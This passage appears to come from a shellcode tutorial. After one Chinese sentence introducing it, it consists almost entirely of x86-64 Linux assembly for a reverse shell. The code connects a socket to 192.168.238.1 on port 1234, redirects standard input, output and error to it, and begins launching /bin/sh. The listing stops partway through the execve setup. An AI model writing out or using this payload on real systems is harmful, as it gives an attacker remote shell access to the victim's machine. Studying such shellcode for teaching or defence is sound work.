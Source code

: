 现在，让我们把它们打包：

```
global _start

section .text

_start:

;Socket syscall
    xor rax, rax
    add rax, 41
    xor rdi, rdi
    add rdi, 2
    xor rsi, rsi
    inc rsi
    xor rdx, rdx
    syscall

; Save the sockfd in RDI Register
    mov rdi, rax

;Creating the structure
    xor rax, rax 
    push dword 0x01eea8c0
    push word 0xd204
    push word 0x02

;Move stack pointer to RSI
    mov rsi, rsp

;Connect syscall
    xor rdx, rdx
    add rdx, 16
    xor rax, rax
    add rax, 42
    syscall

;Dup2 syscall to stdin
    xor rax,rax
    add rax, 33
    xor rsi, rsi
    syscall

;Dup2 syscall to stdout
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Dup2 syscall to stderr
    xor rax,rax
    add rax, 33
    inc rsi
    syscall

;Execve syscall with /bin/sh
    xor rax, rax
    push rax
    mov rdx, rsp
    mov rbx, 0x68732f6e69622f2f
    push rbx
    mov rdi, rsp
    push rax
```